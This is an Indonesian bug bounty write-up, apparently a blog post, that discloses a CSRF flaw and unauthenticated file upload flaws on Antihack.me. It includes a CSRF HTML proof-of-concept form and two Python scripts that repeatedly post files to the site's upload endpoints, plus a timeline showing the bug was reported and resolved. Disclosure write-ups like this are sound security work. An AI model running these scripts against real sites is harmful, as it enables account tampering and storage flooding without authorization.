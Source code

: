 ```yaml
---
layout: post
title: "[Bug Bounty] Antihack.me CSRF And Arbitrary File Upload"
date: 2019-01-09
tags: [ "Bug Bounty", "CSRF"]
---
```


![](/images/bugbounty/antihack/logo.png)

## Introduction

Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan berhasil login ke aplikasi, disana terdapat banyak fitur seperti platform-platform bug bounty lainnya, seperti fitur list program, submit report, dan lain sebagainya, termasuk juga dapat mengatur profile kita sebagai bug hunter. 

## CSRF Vulnerability
Cross-site Request Forgery (CSRF) atau bisa disebut dengan one-click attack adalah sebuah serangan yang menggunakan injeksi script baik itu berupa kode javascript, link, atau gambar dengan memanfaatkan token autentikasi.

Disebut one-click attack karena metode ini hanya perlu pemicu dari user dan pemicunya bisa berupa link yang sudah dimaipulasi untuk mengeksekusi perintah.

Nah secara umum CSRF ini bekerja dengan memanfaatkan token autentikasi korbannya dengan tujuan melakukan suatu request yang tidak dinginkan oleh korban. Disini terlihat perbedaan antara CSRF dan Phising, Phising menggunakan url samaran untuk menipu korbannya yang seakan - akan menyerupai website resminya sedangkan CSRF korban akan dibawa kesebuah website yang baginya menarik dan oleh hacker website tersebut akan diinject dengan script jahat. [source](https://www.kodinggen.com/apa-itu-csrf-bagaimana-cara-kerjanya-dan-tips-pencegahannya/)

## CSFR On Profile Image File Upload

Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

![](/images/bugbounty/antihack/csrf1/burp.png)

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya kita dapat memanfaatkan celah ini untuk merubah foto profile orang lain dengan malicious file/script.

Malucious file html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kita coba akses secript diatas di browser dan didapatkan file berhasil diupload dengan baik, artinya jika orang lain yang sedang login ke platform lalu mengakses malicious file tersebut maka secara otomatis foto profile nya akan berubah :)

![](/images/bugbounty/antihack/csrf1/html.png)



## Arbitrary File Upload #1

Biasanya disebut sebagai "Arbitrary File Upload", seorang attacker dapat mengakses fungsi upload tertentu pada aplikasi tanpa proses autentikasi yang benar. Meski tidak dijelaskan secara khusus oleh CWE, secara tidak langsung disebut melalui CWE-862 “Missing Authorization”(Mitre, 2015). Arbitrary File Upload dapat berimpact remote DOS (Denial Of Service), unauthecticated user dapat membanjiri storage server. Kerentanan ini biasanya disebabkan oleh tidak adanya pengecekan otorisasi yang benar. [Source : SANS](https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487)

Pada kasus CSRF pada foto profile diatas ternyata juga terdapat celah Arbitary File Upload, dimana dengan script python dibawah ini kita dapat membanjiri server dengan gambar sampah tanpa proses autentikasi :
```
#!/usr/bin/python3

import requests

headers = {
    'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
    "HOST":"AntiHACK"
}

for i in range(3):
    r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
    print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.


![](/images/bugbounty/antihack/csrf1/python.png)

## Arbitrary File Upload #2 

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python dibawah ini kita juga dapat membanjiri server dengan gambar sampah tanpa proses autentikasi :
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

![](/images/bugbounty/antihack/csrf2/python.png)

Semoga bermanfaat :"


```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```